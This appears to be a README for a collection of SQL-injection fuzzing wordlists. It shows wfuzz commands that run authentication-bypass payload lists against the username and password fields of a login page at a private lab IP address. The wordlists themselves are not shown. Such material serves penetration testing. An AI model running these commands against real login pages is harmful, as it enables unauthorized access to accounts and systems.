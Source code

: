 # web-fuzzing-payloads
Use this payloads to web fuzzing test  

Usage

web-fuzzing-payloads/sqli/auth_bypass_sqli.txt

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_sqli.txt -d "username=FUZZ&password=sa1"

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_sqli.txt -d "username=sayaa&password=FUZZ"

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -z file,auth_bypass_sqli.txt -z file,auth_bypass_sqli.txt -d "username=FUZZ&password=FUZ2Z"

web-fuzzing-payloads/sqli/auth_bypass_with_hash_check_sqli.txt

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_with_hash_check_sqli.txt -d "username=FUZZ&password=password123"
